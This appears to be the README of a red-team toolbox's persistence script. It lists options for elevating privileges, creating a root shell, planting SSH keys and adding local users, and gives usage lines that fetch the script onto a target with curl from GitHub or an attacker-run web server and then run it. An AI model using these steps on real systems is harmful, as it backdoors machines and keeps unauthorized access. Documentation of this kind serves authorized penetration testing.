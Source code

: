 # Persistence Phase

Definition...  

Available parts:
- Elevate privileges
- Create a root shell
- Modify ssh keys
- Create local user

## Usage

```sh
# From github
curl -LJO https://github.com/McSquizzy/red-team-toolbox/blob/main/persistence/persistence.sh
sh persistence.sh -h
```
```sh
# Local network
# Host:
sh persistence.sh -w
# Target:
curl -LJO <Host>:8000/persistence.sh
sh persistence.sh -h
```

### Parameters

```sh
sh persistence.sh -h

Options:

-h/-?
  Show this help message

-e <username>
  Elevate privileges of the given user
  Root needed!

-r
  Create a root shell
  Root needed!

-s <ssh public key / content of id_rsa.pub>
  Trying to add ssh public key to authorized_keys of current user

-u <username>
  Add a local account/user
  Root needed!

-p <password>
  Set this password to new user
  Only useful in combination with -u parameter
  Root needed!

-w
  Serves an local web server for transferring files

-q
  Quiet. No banner and no advisory displayed
```

## Results

The results are printed directly to STDOUT.

## Compatibility

The script uses /bin/sh syntax and is fully POSIX compatible so can run on most unix-based (POSIX/Unix/Linux) systems. 